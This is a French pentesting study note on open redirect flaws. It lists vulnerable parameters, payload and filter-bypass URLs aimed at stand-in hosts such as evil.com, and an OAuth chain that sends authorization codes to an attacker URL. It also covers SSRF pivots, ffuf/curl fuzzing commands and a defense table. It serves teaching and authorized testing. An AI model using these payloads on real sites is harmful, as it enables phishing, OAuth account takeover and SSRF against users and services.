

# ↩️ Open Redirect

> [!info] **En 1 phrase**
> Open Redirect = l'application redirige la victime vers une URL **contrôlée par l'attaquant**,
> parce qu'elle utilise une entrée utilisateur (paramètre `url`, `redirect`, `next`...) **sans la valider**
> → phishing crédible, vol de token OAuth, bypass de whitelist.
>
> Source principale : **[PayloadsAllTheThings — Open URL Redirect](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Open%20URL%20Redirect/README.md)**

---

## 🎯 Concept



> [!info] 💡 **Pourquoi ça marche**
> Le domaine affiché au clic est **celui du site légitime** (`https://vuln.com/...`).
> La confiance de la victime (et des filtres anti-phishing) vient de là. La redirection,
> elle, part ailleurs.

---

## 🔁 Codes de statut HTTP de redirection

```http
3xx → le client doit suivre la redirection
301 Moved Permanently  → la ressource a définitivement changé d'URL
302 Found              → redirection temporaire (méthode potentiellement changée en GET)
303 See Other           → refetch en GET
304 Not Modified        → cache (pas une redirection d'attaque, mais à connaître)
305 Use Proxy           → proxy depuis le header Location
307 Temporary Redirect  → conserve la méthode HTTP
308 Permanent Redirect  → conserve la méthode HTTP (même méthode, sans bascule en GET)
```

> [!tip] 💡 En bug bounty, cible **en priorité** les endpoints qui redirigent avec **307/308**
> ou du JavaScript : ils conservent le **token** dans l'URL ou les headers lors du suivi.

---

## 🧰 Payloads de base

### Paramètres couramment vulnérables

```url
?checkout_url={payload}   ?continue={payload}
?dest={payload}           ?destination={payload}
?go={payload}             ?image_url={payload}
?next={payload}           ?redir={payload}
?redirect_uri={payload}   ?redirect_url={payload}
?redirect={payload}       ?return_path={payload}
?return_to={payload}      ?return={payload}
?returnTo={payload}       ?rurl={payload}
?target={payload}         ?url={payload}
?view={payload}
```

### Redirection par path

```url
https://example.com/redirect/http://malicious.com
https://example.com/redirect/../http://malicious.com
https://example.com/redirect?url=//evil.com
https://example.com/{payload}            # path brut
```

### Payloads classiques à tester

```url
https://example.com/redirect?url=https://evil.com
https://example.com/redirect?url=http://evil.com
https://example.com/redirect?url=//evil.com
https://example.com/redirect?url=/\evil.com
https://example.com/redirect?url=///evil.com
https://example.com/redirect?url=https:evil.com
https://example.com/redirect?url=https:/evil.com
https://example.com/redirect?url=javascript:alert(1)
https://example.com/redirect?url=data:text/html,<script>alert(1)</script>
https://example.com/redirect?url=file:///etc/passwd
```

> [!warning] ⚠️ `javascript:` et `data:` ne sont pertinents que si la "redirection" est faite
> côté **JS/DOM** (`window.location = input`, `location.href`) → cela devient du **XSS DOM-based**.
> Un simple `Location:` HTTP header **ne** suivra **jamais** un schéma `javascript:`.

---

## 🚧 Bypass de validations

### Validation par préfixe

```url
# Le filtre vérifie que l'URL commence par "https://evil.com" ?
https://evil.com.evil-attacker.com
https://evil.com@evil-attacker.com
https://evil.com%2f.evil-attacker.com
https://evil.com%2f%2fevil-attacker.com
```

### Extrémité du domaine

```url
https://evil-attacker.com/?redir=vuln.com.evil-attacker.com
https://vuln.com/redirect?url=https://vuln.com.evil.com
https://vuln.com/redirect?url=vuln.com.evil.com
```

### Le symbole `@` (syntaxe `user@host`)

```url
//<user>:<password>@<host>:<port>/<url-path>   # RFC 1738
http://www.theirsite.com@yoursite.com/
https://vuln.com/redirect?url=//evil.com@vuln.com   # le parseur lit evil.com → @vuln.com est ignoré
```

### Caractère `?` et `#` (fin de path / fragment)

```url
http://www.yoursite.com?http://www.theirsite.com/       # le "?" coupe → redirige vers theirs
http://www.yoursite.com#@evil.com                       # fragment ignoré du navigateur
https://vuln.com/redirect?url=//evil.com?whitelist=1    # la whitelist est "avalée" par le ?
https://vuln.com/redirect?url=//evil.com#whitelist.com  # pareil avec le fragment
```

### Slashes / backslash / encodage

```url
//evil.com                      # protocole implicite (scheme-relative)
///evil.com                     # bypass "http" blacklisté
/\evil.com                     # bypass "//" blacklisté
/\/evil.com
https://evil.com\@vuln.com      # backslash = slash pour certains parseurs (Chromium)
https://vuln.com/%2f%2fevil.com # double encodage → /evil.com après décodage serveur
https://vuln.com/%252f%252fevil.com
https://vuln.com/redirect?url=/%09/evil.com   # tab : coupe la logique de validation
java%0d%0ascript%0d%0a:alert(0)               # CRLF pour contourner "javascript" blacklisté
https://vuln.com/redirect?url=%68%74%74%70%3a%2f%2fevil.com   # http:// en hex/URL-encoded
```

### Point `.` blacklisté → Unicode

```url
/?redir=google。com                    # idéogramme point (U+3002)
//google%E3%80%82com
//google．com                          # fullwidth
//google｡com
```

### Null byte et HPP (HTTP Parameter Pollution)

```url
//google%00.com                       # null byte → coupe la string côté app
?next=whitelisted.com&next=google.com # HPP : le serveur garde un des deux, le filtre valide l'autre
?url=https://evil.com&url=https://vuln.com
```

### Contrôle de sous-domaine / dossier éponyme

```url
http://www.vuln.com/http://www.evil.com/
http://www.vuln.com/folder/www.evil.com
https://evil.vuln.com                       # si on peut créer un sous-domaine (subdomain takeover)
```

### Normalisation Unicode / HostSplit

```url
https://evil.c℀.example.com  →  devient evil.ca/c.example.com   # U+2100 ℀ (ca composé)
http://a.com／X.b.com                      # slash fullwidth U+FF0F → / après normalisation
# Payloads : %E2%84%80 (℀), %EF%BC%8F (／), %E3%80%82 (。)
```

> [!tip] 💡 **Règle d'or du bypass** : le WAF/filtre valide la chaîne **brute**,
> mais le navigateur (et souvent le serveur) **normalise** d'abord : décodage URL,
> normalisation Unicode, backslash→slash, `@`→split user/host, `.` idéogramme→`.`.
> Tout ce qui diffère entre les deux visions = bypass.

---

## 🎫 Open Redirect → OAuth token leak

> C'est l'impact le plus grave : la redirection piégée se joue **pendant** le flux OAuth,
> donc le token d'accès (et le code d'autorisation) est envoyé **à l'attaquant**.

```url
# La victime clique sur ce lien "connexion avec Google" :
https://vuln.com/oauth/authorize?client_id=xxx&redirect_uri=https://vuln.com/oauth/callback

# L'attaquant remplace redirect_uri par sa propre URL (si non whitelistée stricte) :
https://vuln.com/oauth/authorize?client_id=xxx&redirect_uri=https://evil.com/steal
https://vuln.com/oauth/authorize?client_id=xxx&redirect_uri=//evil.com/steal
https://vuln.com/oauth/authorize?client_id=xxx&redirect_uri=https://vuln.com.evil.com/steal
https://vuln.com/oauth/authorize?client_id=xxx&redirect_uri=https://vuln.com@evil.com/steal
https://vuln.com/oauth/authorize?client_id=xxx&redirect_uri=https://evil.com/?vuln.com

# Variante state-token réutilisé / enchaîné avec un open redirect du callback :
https://vuln.com/oauth/authorize?client_id=xxx&redirect_uri=https://vuln.com/oauth/callback
   → puis le callback redirige vers un paramètre contrôlé :
https://vuln.com/oauth/callback?code=XXX&redirect_to=https://evil.com/steal?code=XXX
```

```http
GET /oauth/authorize?client_id=x&redirect_uri=https://evil.com/steal HTTP/1.1
Host: vuln.com

→ HTTP/1.1 302 Found
Location: https://evil.com/steal?code=AUTHORIZATION_CODE&state=...
```

### Comment ça s'exploite (chaîne complète)

```bash
# 1. Payload OAuth classique
redirect_uri=https://evil.com/steal

# 2. La victime est redirigée vers le fournisseur OAuth (Google, GitHub...)
# 3. Elle se connecte → le fournisseur renvoie le code/token vers redirect_uri = evil.com
# 4. L'attaquant capture :
#    - le code d'autorisation (échangeable contre un access token, si pas de PKCE/PKCE faible)
#    - un access_token directement dans l'URL si flux implicite
# 5. Réutilise le token → prise de compte (OAuth account takeover)
```

> [!warning] ⚠️ Les fournisseurs matures (Google...) appliquent une **whitelist stricte de
> `redirect_uri`** (match exact). Les vulns sont donc souvent **côté app custom** : callback
> interne vulnérable, `redirect_uri` contrôlé par l'app, wildcard `*`, ou open redirect
> **dans le callback** qui re-propage le token. Tester la combinaison : open redirect + OAuth.
> En présence de PKCE, le code seul ne suffit pas sans le `code_verifier` — mais le **token
> implicite** ou le **refresh token** volé restent exploitables.

---

## 📍 Autres contextes de redirection

### URL de download / téléchargement

```url
https://vuln.com/download?file=https://evil.com/malware.exe
https://vuln.com/download?next=https://evil.com/payload
https://vuln.com/files?path=https://evil.com/backdoor.exe
```

### Meta refresh (HTML)

```html
<meta http-equiv="refresh" content="0; url=INPUT">
```

### JavaScript (location / assign)

```js
var redirectTo = "http://trusted.com";
window.location = redirectTo;        // payload : ?redirectTo=http://evil.com
window.location.assign(input);
window.location.replace(input);
location.href = input;
```

### Header HTTP Location

```http
HTTP/1.1 302 Found
Location: INPUT
```

> [!tip] 💡 Cherche ces vecteurs au-delà des endpoints classiques : boutons "retour à la
> page précédente", "après connexion", "après paiement/checkout", gestionnaires d'erreur
> 404 avec URL réfléchie, liens "voir aussi". C'est souvent là que se cachent les redirects.

---

## 🛠️ Outils & wordlists

```bash
# Détection par grep de paramètres suspects dans le code / crawls
grep -rEi "window.location|location\.href|meta.*refresh|header\(['\"]Location|redirect" .

# ffuf : fuzz de paramètres de redirection sur un endpoint
ffuf -u "https://vuln.com/redirect?FUZZ=https://evil.com" -w params.txt -mc all -fs 0

# ffuf : fuzz de valeurs sur un paramètre connu (observer les 3xx)
ffuf -u "https://vuln.com/redirect?url=FUZZ" -w payloads.txt -mc 301,302,303,307,308 -o hits.json

# Curl : suivre ou non la redirection pour la voir
curl -sI "https://vuln.com/redirect?url=https://evil.com"    # -I → HEAD, affiche le Location
curl -s -o /dev/null -w "%{redirect_url}\n" "https://vuln.com/redirect?url=//evil.com"

# Dans Burp : Repeater + onglet "Response" → suivre manuellement, ou bult-in "Open redirect" scan
# Extensions utiles : Param Miner (fuzz params), OpenRedirex
```

```bash
# Wordlists de paramètres (inline)
url redirect redirect_uri redirect_url next return return_to returnTo return_path rurl dest
destination target go redir continue view checkout_url image_url

# Wordlists de payloads
/usr/share/seclists/Web-Security/redirect-urls.txt
/usr/share/wordlists/...  # ou les payloads Open-Redirect-Payloads de cujanovic
```

- **[Open-Redirect-Payloads (cujanovic)](https://github.com/cujanovic/Open-Redirect-Payloads)** : wordlist complète
- **[OpenRedirex](https://github.com/devanshbatham/OpenRedirex)** : automatise le test des payloads (`python3 openredirex.py -u "https://vuln.com/redirect?url=FUZZ" -p payloads.txt`)

> [!tip] 💡 Priorise : **paramètres déjà présents dans le traffic** (crawl Burp/ffuf) plutôt
> qu'un fuzz exhaustif, puis vérifie à la main dans le navigateur que le `Location` est bien
> **suivi** (teste aussi avec curl qui ne suit pas pour voir le header brut).

---

## 🔍 Détection & Défense

| Mesure | Détail |
|---|---|
| **Whitelist stricte d'URLs** | Liste exacte des domaines/chemins autorisés, match **exact** (`host` + path), pas de `startswith` |
| **Validation côté DNS** | Résoudre le hostname et vérifier qu'il appartient aux domaines autorisés (pas de redirection vers un domaine non listé) — attention au DNS rebinding |
| **Pare-feu contre les schemes** | Autoriser uniquement `http`/`https`, bannir `javascript:`, `data:`, `file:`, `vbscript:` |
| **`redirect_uri` OAuth strict** | Whitelist exacte, pas de wildcard, vérifier avant **et** après décodage/normalisation |
| **Éviter les redirects génériques** | Ne jamais construire une redirection depuis un paramètre brut ; mapper un identifiant (`?goto=home`, `?dest=login`) vers une URL côté serveur |
| **Normaliser avant validation** | Décoder URL (1×, 2×), normaliser Unicode, convertir backslash→slash, gérer `@`, `?`, `#`, `.` idéogramme |
| **Retours d'erreur clairs** | Refuser proprement les URLs invalides (pas de fallback qui redirige par défaut) et ne pas réfléchir l'input dans la page |
| **Relative-only** | Si possible, n'accepter que des chemins relatifs (`/login`) et les résoudre sur le même host |
| **Test automatisé** | Scanner les 3xx + meta refresh + `window.location` ; vérifier que l'input normalisée ne quitte jamais la whitelist |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Tester en chaîne avec les autres vulns**
> L'open redirect est rarement un but en soi : c'est un **multiplicateur**.
> Combine-le avec :
> - **Phishing** : `https://vuln.com/redirect?url=evil.com` affiche `vuln.com` dans l'email.
> - **XSS** : open redirect DOM → `javascript:` → XSS ; XSS sur le même domaine + open redirect = escalation.
> - **SSRF** : un redirect `302` peut faire suivre le serveur vers l'interne (`http://169.254.169.254/`) si un proxy/crawler suit les Location.
> - **OAuth/SSO** : vol de token (voir plus haut).
> - **Token CSRF / anti-CSRF** : certaines protections re-jouent l'URL de référence → la faire pointer vers nous.

> [!warning] ⚠️ **Open redirect ≠ path traversal redirect**
> - **Open redirect** : l'app renvoie une URL **complète externe** dans `Location` (`https://evil.com`) → le navigateur quitte le domaine.
> - **Path traversal redirect** : le path contrôle une redirection **interne** (`/redirect/../admin`) → bypass d'access control sans quitter le domaine.
> Distinguer les deux : si le `Location` commence par `/`, tu es plutôt sur du traversal/relative → teste l'accès à des ressources **privilégiées** du même site.

> [!warning] ⚠️ **Pièges des parsers d'URL**
> - **Deux décodages** : le serveur peut décoder `%25` une fois et le navigateur encore → `%252f%252f` devient `//` au final.
> - **`?` et `#` coupent la chaîne** : un filtre qui fait `startswith("https://vuln.com")` est bypassé par `https://vuln.com?evil.com` (hôte = vuln.com, mais le navigateur lit `evil.com` après le schéma ? — **toujours tester dans le navigateur**, le parser d'URL fait foi).
> - **`@`** : le contenu avant `@` est traité comme userinfo → `//evil.com@vuln.com` pointe vers `evil.com`.
> - **Backslash** : Chromium traite `\` comme `/` → `https://evil.com\@vuln.com` est l'hôte `evil.com`.
> - **Unicode** : `.` idéogramme (`。`) et `／` (slash fullwidth) se normalisent après la validation.
> - **Validation par préfixe/`contains`** : toujours contournable, utiliser un match **exact** post-normalisation.
> - **Faux positifs** : une redirection vers un **sous-domaine du même domaine** (`//sub.vuln.com`) est légitime MAIS devient dangereuse si le sous-domaine est pris (`subdomain takeover`) → ça redevient un open redirect exploitable.

> [!tip] 💡 **Méthodo rapide de test**
> 1. Identifier les paramètres de redirection (crawl + fuzz). 2. Tester `https://evil.com` → ok ? 3. Tester `//evil.com` (bypass scheme). 4. Tester `@`, `\`, `%2f`, Unicode. 5. Vérifier la **position du payload** dans le `Location` brut. 6. Vérifier en **navigateur** (pas juste curl). 7. Chaîner avec OAuth/XSS/SSRF pour mesurer l'impact réel.

---

## 🔗 Liens

- [[XSS (Cross-Site Scripting)|🖼️ XSS]]
- [[SSRF|🌐 SSRF]]
- [[XSS (Cross-Site Scripting)|🎣 Phishing]]
- [[Path Traversal|📂 Path Traversal]]
- → Note complète : [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — Open URL Redirect](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Open%20URL%20Redirect/README.md)
- 🧪 Labs : [PortSwigger — DOM-based open redirection](https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection) · [Root-Me — HTTP Open redirect](https://www.root-me.org/fr/Challenges/Web-Serveur/HTTP-Open-redirect)
